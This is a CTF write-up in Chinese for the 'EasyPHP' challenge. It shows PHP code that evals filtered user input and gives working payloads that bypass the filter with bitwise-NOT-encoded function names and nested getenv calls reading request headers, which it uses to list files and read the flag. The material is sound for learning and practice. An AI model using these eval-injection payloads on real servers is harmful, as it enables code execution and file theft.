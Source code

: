 # EasyPHP

```
<?php
highlight_file(__FILE__);

$_ = @$_GET['_'];
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
    die('rosé will not do it');

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');

eval($_);
?>
```

限制一堆字元，然後非重複字元最多只能用`0xd`個

最後丟進`eval()`跑

很容易想到可以用`~%xx`的方式繞第一個限制

例如: `phpinfo()`為`(~%8F%97%8F%96%91%99%90)();`

裡頭可以看到設了一堆`disable_functions`:

```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,mail,putenv
```

然後也設了`open_basedir`: `/var/www/easyphp`

所以可以猜測flag在網頁根目錄下，要列目錄或直接讀檔

<br>

比賽結束前10分鐘，拉屎時突然想到可以用`getenv()`去繞掉長度限制

`getenv("HTTP_T")`會去抓header中`T`的值

所以可以構造類似這樣的東西:

`getenv("HTTP_T")(getenv("HTTP_TT")(getenv("HTTP_TTT")))`一直無限嵌套下去

=> `((~%98%9A%8B%9A%91%89)(~%B7%AB%AB%AF%A0%AB))((~%98%9A%8B%9A%91%89)(~%B7%AB%AB%AF%A0%AB%AB)((~%98%9A%8B%9A%91%89)(~%B7%AB%AB%AF%A0%AB%AB%AB)));`

`T`塞`print_r`、`TT`塞`glob`、`TTT`塞`*`

就能列當前目錄了

=> `Array ( [0] => index.php [1] => n0t_a_flAg_FiLe_dONT_rE4D_7hIs.txt )`

接著就直接讀檔 (他不給直接訪問，會403)

`T`塞`readfile`、`TT`塞`n0t_a_flAg_FiLe_dONT_rE4D_7hIs.txt`

=> `ISITDTU{Your PHP skill is so good}`

<br>

網站最後一直轉圈圈和502，轉到結束

根本送不了flag

雷炸
